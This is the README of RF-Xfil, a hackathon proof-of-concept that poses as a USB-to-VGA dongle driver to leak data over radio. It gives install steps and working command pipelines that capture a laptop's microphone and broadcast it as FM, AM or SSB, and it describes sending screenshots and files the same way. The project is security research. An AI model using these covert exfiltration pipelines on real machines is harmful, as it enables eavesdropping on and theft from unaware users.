 # RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0

![HackSmith v2 Award](misc/HackSmith_Award.jpg)

Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.


### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
Example: ubuntu
```
sudo apt install build-essential cmake
```
2. run autoinstall.sh
```
./autoinstall.sh
```

### Usage

figure out your microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

figure out your sound output
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting audio:
Replace the '-d' with the one appriopriate to your purposes
WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr bandpass_fir_fft_cc 0 0.1 0.01 | csdr gain_ff 2 | csdr shift_addition_cc 0.2 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

\
